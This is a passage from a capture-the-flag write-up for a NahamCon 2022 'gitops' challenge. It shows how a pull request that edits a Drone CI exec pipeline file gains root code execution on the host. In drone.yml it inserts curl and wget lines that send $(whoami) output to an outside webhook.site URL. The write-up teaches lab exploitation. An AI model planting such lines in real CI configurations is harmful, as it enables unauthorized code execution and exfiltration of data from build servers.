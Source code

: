   After some quick research, we can understand that drone is the application that automates the process to keep the webserver up to date.

  > Drone by Harness™ is a modern Continuous Integration platform that empowers busy teams to automate their build, test and release workflows using a powerful, cloud native pipeline engine. *https://docs.drone.io/*

  - Navigating the docs, we found an interesting feature, [**Exec Pipeline**](https://docs.drone.io/pipeline/exec/overview/).

   > An exec pipeline executes shell commands directly on the host machine without isolation. This is useful for workloads that need to run on the host, or are poorly suited for execution inside containers.

  - The `Drone.yml` file in the web repository is probably the drone config file. And from the `README.md` we can assume it gets run when we make a pull request to ensure our new code passes all the required checks.

- `Web.challenge.nahamcon.com`

  - This is the webserver, in the `ReadMe.md` from the Web repository, we learned that every minute, the GitOps system will push the `master` branch to this server.

    > Our gitops system will pull your changes every minute and update the website automatically.

  - We can assume this is the server containing the flag.

## Testing for Remote Code Execution

In our initial test, we tried to contact a webhook from https://webhook.site/. We added the following code to `drone.yml`.

```yaml
# ...
      - curl https://webhook.site/2289b2a6-580c-4091-90a4-4356e97c6fc0/$(whoami)
      - wget https://webhook.site/2289b2a6-580c-4091-90a4-4356e97c6fc0/$(whoami)
```

![Initial Testing](/static/images/nahamcon-ctf-2022/gitops/drone_whoami.png)

**Note:** We inserted a request with `curl` and with `wget` in case one of them is not installed on the system.

We can now check our webhook to see if the commands were successfully executed, and we can see two new requests, one with `curl` and one with `wget`. It worked, and we even have root privileges over the target machine!

![Webhook.site Result](/static/images/nahamcon-ctf-2022/gitops/webhook_whoami.png)

## Bonus: How to get command output without webhook

In this challenge, the target machine is connected to internet, but what if it was only accessible within the local network, or if it had a very strict firewall policy and you can’t exfiltrate data via the WAN network ?

This is where the drone application can help us, when we access the Drone web UI, we can see the result of our command in the output log.
